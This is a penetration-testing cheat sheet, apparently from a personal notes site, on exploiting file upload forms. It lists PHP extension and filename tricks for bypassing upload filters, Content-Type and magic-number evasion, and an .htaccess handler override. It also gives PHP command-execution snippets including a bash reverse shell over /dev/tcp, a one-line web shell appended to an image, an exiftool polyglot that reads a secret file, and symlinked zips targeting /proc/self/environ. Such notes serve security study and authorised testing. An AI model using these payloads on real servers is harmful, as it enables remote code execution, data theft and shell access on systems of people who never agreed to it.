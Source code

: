 ```yaml
---
title: "File Upload"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#File_upload

**Test every php extension** 

- Find the right extension with burp :
![[upload 2.png]]

- Script generate extension list : 

```python
var = ".php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module"
var_list = var.split(", ")

with open("extensions.txt", "w") as file:
    for extension in var_list:
        file.write(extension + "\n")
```   

![[upload 7.png]]

- Check every file that send an echo "test" : 
![[upload 6.png]]

`Same technique now check every response that print Demonize or "test"`

![[upload 4.png]]

- Check the disable function  :
![[upload 3.png]]

- Here is a list or other possible function to test to execute command : 

	- **exec** - Returns last line of commands output:
	 ``` echo exec("uname -a"); ```
	 - **passthru** - Passes commands output directly to the browser:
	 ```echo passthru("uname -a");```
	 - **system** - Passes commands output directly to the browser and returns last line:
	 ```echo system("uname -a");```
	 - **shell_exec** - Returns commands output :
	 ``` echo shell_exec("uname -a"); ```
	 - **popen** - Opens read or write pipe to process of a command:
	 ```echo fread(popen("/bin/ls /", "r"), 4096);```
	 - **proc_open** - Similar to popen() but greater degree of control:
	 ```proc_close(proc_open("uname -a",array(),$something)); ```
	 - **preg_replace** :
	 ``` <?php preg_replace('/.*/e', 'system("whoami");', ''); ?> ```
	 - **pcntl_exec** - Executes a program (by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function) :
	 ```pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);```

**Bypass file extensions checks**

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_
    - _file.png.php_
    - _file.png.Php5_
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._    
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. T
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
    

```sh
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```

9. Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename :

	`exploit.p.phphp`

**Bypass Content-Type, Magic Number**

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_

 Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
   
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: 

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

Or you could also **introduce the payload directly** in an image: 

`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`

- Interesting tool Upload bypass :
https://github.com/sAjibuu/Upload_Bypass

- You can also an LFI do bypass restriction for example : 
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php`

DO NOT forget try double encoding ect ...

- Htaccess ( Web shell upload via extension blacklist bypass ): 

1- Upload a file name as .htaccess 
2- Change the value of the `Content-Type` header to `text/plain`
3- Replace the contents of the file (your PHP payload) with the following Apache directive:

`AddType application/x-httpd-php .l33t`

Resources: 
https://thibaud-robin.fr/articles/bypass-filter-upload/

**Race Condition :**
![[upload 8.png]]

![[upload 9.png]]

- Tester la présence d'un Anti-virus : 
```sh
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```


- Zip :
Try to upload a zip with symlink to `/etc/password` or `the page himself` (index.php)
Be aware of `opendir` !! 
```sh
ln -s /proc/self/environ test.txt
zip --symlinks user.zip test.txt
```